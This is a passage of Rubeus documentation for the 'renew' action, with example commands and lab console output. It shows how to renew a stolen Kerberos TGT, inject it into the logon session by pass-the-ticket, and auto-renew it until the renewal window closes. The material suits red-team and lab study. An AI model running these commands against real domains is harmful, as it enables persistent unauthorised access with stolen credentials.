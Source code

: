 The **renew** action will build/parse a raw TGS-REQ/TGS-REP TGT renewal exchange using the specified `/ticket:X` supplied. This value can be a base64 encoding of a .kirbi file or the path to a .kirbi file on disk. If a `/dc` is not specified, the computer's current domain controller is extracted and used as the destination for the renewal traffic. The `/ptt` flag will "pass-the-ticket" and apply the resulting Kerberos credential to the current logon session.

Note that TGTs MUST be renewed before their EndTime, within the RenewTill window.

    C:\Rubeus>Rubeus.exe renew /ticket:ticket.kirbi /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: Renew TGT

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building TGS-REQ renewal for: 'TESTLAB.LOCAL\dfm.a'
    [*] Connecting to 192.168.52.100:88
    [*] Sent 1506 bytes
    [*] Received 1510 bytes
    [+] TGT renewal request successful!
    [*] base64(ticket.kirbi):

        doIFmjCCBZagAwIBBaEDAgEWoo...(snip)...

    [*] Action: Import Ticket
    [+] Ticket successfully imported!


The `/autorenew` flag will take an existing `/ticket:X` .kirbi file/blob, sleep until endTime-30 minutes, auto-renew the ticket and display the refreshed ticket blob. It will continue this renewal process until the allowable renew-till renewal window passes.

    C:\Rubeus>Rubeus.exe renew /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip)... /autorenew

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v1.3.3

    [*] Action: Auto-Renew TGT


    [*] User       : dfm.a@TESTLAB.LOCAL
    [*] endtime    : 2/10/2019 11:44:09 PM
    [*] renew-till : 2/17/2019 6:44:09 PM
    [*] Sleeping for 263 minutes (endTime-30) before the next renewal
    [*] Renewing TGT for dfm.a@TESTLAB.LOCAL
